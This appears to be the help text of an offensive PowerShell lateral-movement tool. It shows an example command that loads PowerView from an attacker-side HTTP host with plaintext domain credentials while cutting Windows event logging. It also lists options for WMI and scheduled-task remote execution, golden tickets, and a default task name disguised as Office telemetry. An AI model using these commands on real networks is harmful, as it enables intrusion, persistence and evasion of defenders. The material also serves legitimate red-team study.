 Perform Get-DomainGroupMember on a multiple machine and pull results over HTTP on port 8080 with a custom script name (Less Windows event logs):  
Invoke-LateralMovement -HostList C:\temp\hosts.txt -ExecPS -UserName AdminUser -Password P@55w0rd -Domain CORP -ScriptDir http://10.0.0.5/PowerView.ps1 -CustomCommand "Get-DomainGroupMember 'Domain Admins'" 

-----------------------------
#### Parameter Sets:

.PARAMETER HostName  
Specifies single host to run command on

.PARAMETER HostList  
Specifies the file to read a list of hosts from, separated by newline.

.PARAMETER UserName  
Specifies the username to use for the command

.PARAMETER Password  
Specifies the password of the user

.PARAMETER Domain  
Specifies Domain of the user account being used.

.PARAMETER OutputFolder  
Specify output folder name and/or location on your local machine. (Default is current user's Desktop)

.SWITCH Delete  
To be used with the -SchTasks switch, will delete the task created on a remote machine.

----------------------------

.SWITCH WmiCommand  
Specifies that a [schtask, wmic, or Invoke-Wmimethod] command will be run on the corresponding hosts. Will ping an IP by default, unless given the -CustomCommand flag.

.PARAMETER IP  
Specifies the IP the compromised machine will ping.

.PARAMETER CustomCommand  
Specifies a custom command, if the user wants to take other actions than ping.

.SWITCH GoldenTicket  
Specifies that if a golden ticket is in use to use the correct syntax.

\  
&nbsp;&nbsp;&nbsp;&nbsp;.SWITCH SchTasks  
&nbsp;&nbsp;&nbsp;&nbsp;Specifies that a task will be created on the remote machine instead of using wmic.

&nbsp;&nbsp;&nbsp;&nbsp;.PARAMETER TaskTime  
&nbsp;&nbsp;&nbsp;&nbsp;Specifies the time the task will be run. [24-hour clock]

&nbsp;&nbsp;&nbsp;&nbsp;.PARAMETER TaskName  
&nbsp;&nbsp;&nbsp;&nbsp;Specifies the name of the task that will be created. (By default it is set to "OfficeTe1emetryAgentLogOn")  
/
